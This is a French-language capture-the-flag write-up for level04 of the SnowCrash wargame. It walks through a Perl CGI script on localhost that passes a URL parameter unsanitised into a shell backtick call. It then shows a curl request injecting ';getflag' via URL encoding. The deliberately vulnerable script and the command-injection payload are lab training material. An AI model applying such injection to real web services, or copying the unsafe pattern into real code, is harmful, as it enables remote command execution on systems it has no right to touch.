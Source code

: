 # Recherche des fichiers disponibles

Avec la commande ls, on remarque le fichier **level04.pl**.

```bash
level04@SnowCrash:~$ ls
level04.pl
```

En examinant le contenu, on comprend que c'est un script perl qui fait tourner un CGI sur un serveur local avec le port 4747.

```bash
level04@SnowCrash:~$ cat level04.pl 
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

On peut donc accéder au serveur avec une URL du style `http://localhost:4747/?x=hello` avec x le paramètre.

```bash
level04@SnowCrash:~$ curl "http://localhost:4747/?x=hello"
hello
```

Mais étant donné que c'est une URL, certains caractères ne sont pas valides, comme l'espace, du coup il faut le remplacer par son code hexadécimal ASCII, préfixé par un %.

```bash
level04@SnowCrash:~$ curl "http://localhost:4747/?x=hello world"
hello
level04@SnowCrash:~$ curl "http://localhost:4747/?x=hello%20world"
hello world
```

Ainsi, on peut injecter une commande en profitant de la syntaxe bash.

`curl "http://localhost:4747/?x=%3Bgetflag"` (%3B = ;)

donnera par substitution : `echo ;getflag 2>&1`
